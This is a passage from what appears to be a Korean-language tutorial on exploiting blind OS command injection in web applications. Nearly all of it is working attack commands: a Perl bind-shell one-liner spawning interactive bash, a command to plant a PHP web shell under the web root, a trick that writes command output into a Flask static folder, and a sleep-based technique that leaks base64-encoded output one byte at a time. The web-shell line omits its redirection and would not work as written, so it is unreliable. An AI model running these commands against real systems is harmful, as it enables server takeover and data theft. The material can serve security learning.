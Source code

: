 - perl

```bash
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

#### File Create

- Scripting Engine
    
    웹 루트 하위에 있는 폴더에 해석 가능한 (php/jsp/asp) 파일을 만들어 웹쉘 형태로 접근하는 방식이다.
    
    ```bash
    printf '<?=system($_GET[0])?>' /var/www/html/uploads/shell.php
    ```
    
    파일 생성이 가능한 권한이 있는 디렉토리에 파일을 생성하여 아래와 같이 웹쉘 형태로 사용 가능
    

- Static File Directory
    
    프레임 워크 또는 다양한 웹 어플리케이션에서는  JS/CSS/Img 등의 정적 리소스를 다루기 위해 Static File Directory를 사용한다. 해당 디렉토리에 OS 명령어의 결과를 파일로 생성시킨 후 접근하는 방법을 통해 결과를 확인할 수 있다.
    
    대표적인 예시로 Python의 Flask 프레임워크는 기본 설정 상 static 디렉토리의 이름이 static으로 설정되어 있다. 또한 Static 디렉토리를 생성하지 않은 상황에서도 OS 명령어를 통해  static 디렉토리를 생성한 후 해당 디렉토리를 생성한 후 해당 디렉토리 내에 파일을 생성하여 확인 할 수 있다. (프레임워크가 동작하는 디렉토리에 대한 권한이 존재하여야 디렉토리를 생성할 수 있다.
    
    ```bash
    /?cmd=mkdir static; id > static/result.txt
    ```
    

### 실행 결과를 확인할 수 없는 환경 - 2

> Network In/Outbound가 막혀 있고 파일로 출력 값을 redirection시켜 결과를 확인할 수 없는 상황에서는 참/거짓 판별로 추출해야 한다.
비교문을 통해 데이터를 비교하고, 참/거짓을 판별할 수 있는 방법이 있으면 된다.
{: .prompt-tip }

#### 지연 시간 (Sleep)

비교하는 값이 참일 경우 sleep 명령어를 통해 지연시간을 발생시켜 확인

- `id` 명령어의 결과를 확인하고 싶을 때 해당 데이터를 base64로 치환한 후 참/거짓 판별을 통해 해당 데이터를 알아낼 수 있다.

```bash
$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ id | base64 -w 0
dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK
```

- 참/거짓 여부는 바이트 한 개가 입력 값과 일치할 때 `sleep` 명령어를 통해 서버 응답을 지연시켜 알아낼 수 있다.

```bash
bash -c "a=\$(id | base64 -w 0); if [ \${a:0:1} == 'd' ]; then sleep 2; fi;" # --> sleep for 2 seconds; true
bash -c "a=\$(id | base64 -w 0); if [ \${a:1:1} == 'W' ]; then sleep 2; fi;" # --> sleep for 2 seconds; true
bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'a' ]; then sleep 2; fi;" # --> sleep for 0 seconds; false
bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'l' ]; then sleep 2; fi;" # --> sleep for 2 seconds; true
```
